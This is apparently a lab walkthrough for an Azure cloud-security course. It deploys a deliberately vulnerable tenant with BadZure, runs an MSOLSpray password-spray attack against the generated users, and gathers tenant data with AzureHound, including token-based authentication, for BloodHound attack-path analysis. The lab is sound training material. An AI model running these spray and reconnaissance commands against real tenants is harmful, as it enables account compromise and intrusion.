

### References
* https://github.com/mvelazc0/BadZure/
* https://www.youtube.com/watch?v=7IdyU7tQgww

### Pre-Requisites
1. Deploy Azure PenTest VM
* https://github.com/davidokeyode/azure-cloudsec-practitioner/tree/main/pentest-vm-win
* https://davidokeyode.medium.com/azure-cloudsec-practitioner-series-1-deploying-an-azure-pentest-vm-f65adbc40edb

2. You are logged into the Azure PenTest VM

### Prepare the environment
1. Verify Dependencies
```
Get-Module Microsoft.Graph -ListAvailable
Get-Module Azure -ListAvailable
```

2.  Connect to Azure and Microsoft Graph
```
Connect-AzAccount
Connect-MgGraph
```

3. Import the BadZure Script
```
cd $env:SystemDrive\PentestTools\Azure\VulnerableEnv\BadZure
. ./Invoke-BadZure.ps1

Invoke-BadZure -Build -Password "W8&x2N78T0" -Verbose
```

3b. Enable MFA for some users (to be used to test MSOLSpray MFA detection later)
* Disable some user accounts
* Add non-existent user account to the file


4. Make note of the username and password for the three attack paths


5. Review populated users
```
ls
notepad users.txt
```

### Run MSOLSpray to simulate a password spray attack
1. Import the MSOLSpray module
```
cd $env:SystemDrive\PentestTools\Azure\Attack\MSOLSpray
Import-Module .\MSOLSpray.ps1
```

2. Copy the users.txt file from the BadZure directory to the MSOLSpray directory
* This contains a list of users that will be targets for the password spray attack
```
Copy-Item -Path "$env:SystemDrive\PentestTools\Azure\VulnerableEnv\BadZure\users.txt" -Destination "$env:SystemDrive\PentestTools\Azure\Attack\MSOLSpray"
```

3. Run MSOLSpray
```
Invoke-MSOLSpray -UserList .\users.txt -Password "PASSWORD_FROM_THE_ATTACK_PATH_OUTPUT" -Verbose -OutFile .\sprayresults.txt
```
** Note the non-existent user and the user with MFA configured

4. View the result
* Notice that the user with the password from the attack path output was compromised
```
notepad sprayresults.txt
```

### Run AzureHound to gather tenant information
* https://github.com/BloodHoundAD/AzureHound

1. Switch to the AzureHound directory
```
cd $env:SystemDrive\PentestTools\Azure\Attack\AzureHound
```

2. Collect Azure tenant data into a JSON file
* We can either authenticate using a username and password - **`-u username -p password`**
  * Use this option if a user cred is compromised and MFA is not detected
* OR we can authenticate using an acquired JSON Web Token (JWT) - **`-j`**, **`--jwt`**

* OR we can authenticate using a refresh token **`-r`**, **`--refresh-token`**
  * Use this option if MFA is detected for the user
  Use this option if a user device is compromised with an already authenticated user
  * 

```
./azurehound -u "USERNAME" -p "PASSWORD_FROM_THE_ATTACK_PATH_OUTPUT" list groups --tenant "TENANT_NAME_OR_TENANT_ID" -o azurehound-output.json

./azurehound -j "ey..." list users --tenant "contoso.onmicrosoft.com"
```


### AADInternals Info Check
```

```


### Analyze the output of AzureHound using BloodHound
* This identifies attack paths

1. Upload the output from AzureHound into BloodHound


